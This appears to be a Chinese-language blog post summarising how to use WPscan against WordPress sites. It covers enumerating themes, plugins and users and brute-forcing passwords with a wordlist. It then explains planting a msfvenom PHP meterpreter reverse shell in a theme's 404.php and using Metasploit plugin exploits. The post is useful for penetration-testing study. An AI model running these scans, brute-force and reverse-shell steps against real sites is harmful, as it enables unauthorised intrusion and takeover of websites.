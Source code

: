 ```yaml
---
layout:     post
title:      WPscan使用总结
subtitle:   WPscan使用总结
date:       2019-09-05
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 公网MSF
---
```

## 前言
最近在给某省教育厅的资产进行扫描时，发现一些网站建站程序用的是WordPress，于是就有了本文，本文主要记录了WPscan的一些用法；
## 更新wpscan
在使用WPscan前，它需要你更新到最新版本：
```
ruby wpscan.rb --update
```
![图片](../../../../img/wpscan_1.png)
## 扫描WorePress版本
扫描Wordpress搭建的网站：
```
wpscan -u http://127.0.0.1/
```
## 枚举WordPress主题
通过以下命令枚举网站安装的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate t
```
## 枚举WordPress易受攻击的主题
通过以下命令枚举网站安装的易受攻击的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate vt
```
## 枚举WordPress插件
通过以下命令枚举网站安装的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate p
```
## 枚举WordPress易受攻击的插件
通过以下命令枚举网站安装的易受攻击的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate vp
```
## 枚举WordPress用户名
通过以下命令枚举网站的用户名：
```
wpscan -u http://127.0.0.1/ --enumerate u
```
下图可以看到成功获取到了7个用户名：
## ![图片](../../../../img/wpscan_2.png)

## 使用Wpscan进行暴力攻击
通过上面的枚举用户名步骤，我们已知了用户名，因此只差爆破密码，输入以下命令开始爆破密码：
```
wpscan -u http://127.0.0.1/ --wordlist /root/Desktop/dict.txt --username test
```

## 一行命令枚举插件、主题、用户
上面的命令还是比较繁琐的，我们可以通过以下一行命令，“一键”枚举插件、主题、用户：
```
wpscan -u http://127.0.0.1/ -e at -e ap -e u
```
at：枚举目标网站的所有主题
ap：枚举目标网站的所有插件
u：枚举目标网站的所有用户名
## WordPress 后台Getshell
当我们通过一些弱口令/漏洞利用，进入后台后，通过后台拿WebShell的方法，这里推荐进入外观--编辑([http://127.0.0.1](http://127.0.0.1)[/wp-admin/theme-editor.php)](http://www.test.me/wp-admin/theme-editor.php))--修改404.php的代码(使用msfvenom生成php反弹shell)
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f raw
```
![图片](../../../../img/wpscan_3.png)

## 使用Metasploit利用易受攻击的插件
当我们通过WPscan扫到红色感叹号的提示信息时，我们可以搜索msf中是否存在这个利用脚本，来达到获取Shell的目的，下图是真实环境中某站存在的一个漏洞：
![图片](../../../../img/wpscan_4.png)

![图片](../../../../img/wpscan_5.png)

